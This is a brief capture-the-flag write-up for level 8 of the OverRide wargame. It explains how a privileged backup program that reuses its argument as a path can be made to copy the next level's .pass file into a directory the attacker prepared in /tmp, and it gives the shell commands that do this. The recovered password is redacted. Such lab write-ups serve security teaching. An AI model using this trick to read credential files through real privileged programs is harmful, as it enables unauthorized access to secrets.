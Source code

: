 # Level 08

This one is more of a snow-crash type exploit as we don't actually override anything.
One thing we can note in the sourcefile is that our argv[1] gets used twice. Once as an absolute path, and one copied right after `./backups`.

What I did was the following:
```shell
cd /tmp
level08@OverRide:/tmp$ mkdir -p ./backups/home/users/level09/
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
[redacted]
```
